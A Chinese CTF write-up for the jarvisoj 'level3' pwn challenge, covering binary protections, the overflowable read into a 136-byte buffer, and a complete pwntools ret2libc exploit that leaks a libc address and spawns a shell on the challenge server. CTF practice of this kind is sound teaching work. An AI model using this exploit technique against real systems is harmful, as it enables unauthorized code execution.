 ```yaml
---
author: 
  name: Zephyr
title: jarvisoj level3
date: 2022-3-25 17:31:03
permalink: /pages/2e1547494524d199
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# jarvisoj level3

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/jarvisoj_level3/level3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
```

vulnerable_function函数如下

```c
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  write(1, "Input:\n", 7u);
  return read(0, buf, 0x100u);
}
```



## 思路分析

1. 目前信息：
   - `vulnerable_function`函数可溢出
   - 无`system`、`/bin/sh`及后门函数
   - No PIE
2. 思路：
   - 32位`ret2libc`做法

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_level3/level3'
io = remote('node4.buuoj.cn', 28630)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 136+4
libc_start_main_got = elf.got['__libc_start_main']
write_plt = elf.plt['write']
vulnerable_function = elf.symbols['vulnerable_function']
payload = flat(['a'*padding, write_plt, vulnerable_function,1, libc_start_main_got, 4])
io.sendafter('Input:\n', payload)
leak_libc_start_main = u32(io.recvuntil('Input:\n', drop=True))
libc = LibcSearcher('__libc_start_main', leak_libc_start_main)
libc_base = leak_libc_start_main-libc.dump('__libc_start_main')
system = libc_base+libc.dump('system')
bin_sh = libc_base+libc.dump('str_bin_sh')
payload = flat(['a'*padding, system, 0xdeadbeef, bin_sh])
io.send(payload)
io.interactive()
```